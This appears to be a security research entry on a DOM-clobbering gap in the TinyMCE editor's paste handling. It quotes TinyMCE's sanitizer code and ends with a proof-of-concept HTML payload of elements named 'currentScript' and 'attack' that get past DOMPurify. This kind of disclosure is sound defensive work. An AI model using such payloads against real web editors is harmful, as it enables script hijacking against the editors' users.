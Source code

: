 ## TinyMCE

### Meta

+ Library: TinyMCE-v5/6/7
+ Version: v7.3.0
+ Stars: 14.9K
+ Fingerprint: `typeof(window.tinymce) !== undefined`
+ Input: Copy&Paste
+ Sanitizer: DOMPurify
+ Capability: Any Tag & Any named property without collision
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/tinymce/tinymce


### Vulnerable Code Snippet

Paste HTML
```
// https://github.com/tinymce/tinymce/blob/fbd71ae6a26251a56d72189a5788dd0554343e94/modules/tinymce/src/core/main/ts/paste/Clipboard.ts#L63
const pasteHtml = (editor: Editor, html: string, internalFlag: boolean, shouldSimulateInputEvent: boolean): void => {
  const internal = internalFlag ? internalFlag : InternalHtml.isMarked(html);
  doPaste(editor, InternalHtml.unmark(html), internal, false, shouldSimulateInputEvent);
};
```

TinyMCE internally uses the DOMPurify with defualt configuration to sanitize the input.
```
// https://github.com/tinymce/tinymce/blob/fbd71ae6a26251a56d72189a5788dd0554343e94/modules/tinymce/src/core/main/ts/paste/ProcessFilters.ts#L52
// https://github.com/tinymce/tinymce/blob/fbd71ae6a26251a56d72189a5788dd0554343e94/modules/tinymce/src/core/main/ts/api/html/DomParser.ts#L291
  const parseAndSanitizeWithContext = (html: string, rootName: string, format: string = 'html'): Element => {
    const mimeType = format === 'xhtml' ? 'application/xhtml+xml' : 'text/html';
    // Determine the root element to wrap the HTML in when parsing. If we're dealing with a
    // special element then we need to wrap it so the internal content is handled appropriately.
    const isSpecialRoot = Obj.has(schema.getSpecialElements(), rootName.toLowerCase());
    const content = isSpecialRoot ? `<${rootName}>${html}</${rootName}>` : html;
    const makeWrap = () => {
      if (format === 'xhtml') {
        // If parsing XHTML then the content must contain the xmlns declaration, see https://www.w3.org/TR/xhtml1/normative.html#strict
        return `<html xmlns="http://www.w3.org/1999/xhtml"><head></head><body>${content}</body></html>`;
      } else if (/^[\s]*<head/i.test(html) || /^[\s]*<html/i.test(html) || /^[\s]*<!DOCTYPE/i.test(html)) {
        return `<html>${content}</html>`;
      } else {
        return `<body>${content}</body>`;
      }
    };

    const body = parser.parseFromString(makeWrap(), mimeType).body;
    sanitizer.sanitizeHtmlElement(body, mimeType);
    return isSpecialRoot ? body.firstChild as Element : body;
  };
```


### PoC 

```html
<!--Library-->
<script src="https://cdn.tiny.cloud/1/kvw088syhtkdcjivzwu785cisjwpon4zfjj2isannsfsw555/tinymce/7/tinymce.min.js" referrerpolicy="origin"></script>

<script>
  tinymce.init({
  selector: 'textarea#default'
});
</script>
<textarea id="default">Hello, World!</textarea>
<!--Library-->


<!--Payload-->
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
<p>Copy & Paste the following rendered HTML elements to the editor and Run the following code: tinymce.activeEditor.getContent("default");</p>
<!--Payload-->
```